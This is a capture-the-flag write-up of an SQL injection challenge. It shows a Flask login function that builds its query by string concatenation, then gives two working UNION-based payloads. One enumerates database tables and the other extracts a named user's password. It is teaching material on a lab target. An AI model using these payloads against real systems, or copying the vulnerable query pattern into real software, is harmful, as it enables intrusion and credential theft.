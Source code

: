 # Mission 0 ~ SQL injection
## Goal and instructions
[We have implemented a new version of our web app. It is badly designed, and implemented even worse, but you can go on and test it! P.S. One of our not-so-experienced developers has wiped the users table and we have lost all data, but we should have a copy somewhere in the database :). Can you retrieve the password of user `Jacquelyn`?](https://web1.chall.necst.it/)
## Web app structure
The website is structured with a simple login page and a second page, after login, where the login username is shown.
## Code overview
We will focus on the vulnerable part of the source code, the login function performs an SQL query to validate username and password and return the first 2 results. <br>
the query is prepared through string concatenation, without filtering the user input, and so is vulnerable to SQL injection.
```
@app.route("/login", methods=['POST'])
def login():
    global AUTHENTICATED

    username = request.form['id']
    pw = request.form['pw']

    try:
        query = f"SELECT * FROM users WHERE username='{username}' AND password='{pw}';"
        db_cur.execute(query)
        query_result = db_cur.fetchone()

        print(query_result)

        if query_result is not None:
            id = query_result[0]
            user = query_result[1]
        else:
            return redirect("/")
        
    except Exception as e:
        user = "DB ERROR"
        print(e)

    AUTHENTICATED = True
    return redirect(f"/personal_page?id={id}&username={user}")
```
## Solution
As described we can see the query result, therefore we want to modify the query, through SQL injection, in a way to put desired values in the first 2 results of the query, to be able to read them. <br>
First, we want to discover the table where the user is saved, we insert the following payload in the password field in order to substitute the username with a table name.
> **note:** We can *"navigate"* by modifying the offset value through different tables.
```
prova2' UNION SELECT 1, TABLE_NAME, 'tmp' FROM INFORMATION_SCHEMA.TABLEs where TABLE_SCHEMA='db'
LIMIT 1 OFFSET 1; --
```
We found that the username is saved in the *old_users* table.
Now we want to retrieve the user password, writing the following payload in the password field to substitute the username with it.
```
prova2' UNION SELECT 0, password, 'tmp' FROM old_users WHERE username = 'Jacquelyn' LIMIT 1 OFFSET 1; --
```
> **note:** in order to set properly the UNION operator the original query and the payload have to match in the structure.
